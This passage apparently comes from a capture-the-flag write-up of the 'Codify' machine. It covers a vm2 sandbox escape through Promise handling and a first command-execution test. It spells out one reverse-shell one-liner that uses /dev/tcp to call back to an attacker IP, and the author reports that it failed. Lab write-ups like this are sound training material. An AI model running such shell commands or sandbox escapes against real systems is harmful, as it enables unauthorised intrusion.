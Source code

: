Here the vulnerability is on the way the `vm2` handles the JS `Promise` object (which would be the completion or failure of some provided code). To be perfectly honest, I did not really understand why nor how the vulnerability works, but the complete explanation can be found [here](https://gist.github.com/leesh3288/f693061e6523c97274ad5298eb2c74e9) in another Proof Of Concept. I do not really have the JavaScript knowledge to really comprehend it to be honest.

Let's try and run this `echo coucou` command using our previous code :

<img src="/assets/img/Codify/codi4.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

It works! Now let's try for a reverse shell! Since the `-c` and `-e` options are not in the distant machine (I tried a revershell with those). Also the `sh -i >& /dev/tcp/10.10.14.87/12345 0>&1` command shows a `bad file descriptor` error.

We'll have to use [this](https://spencerdodd.github.io/2017/02/21/reverse_shell_without_nce/), which is a roundabout way of doing a reverse shell but it works :

<img src="/assets/img/Codify/codi5.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>
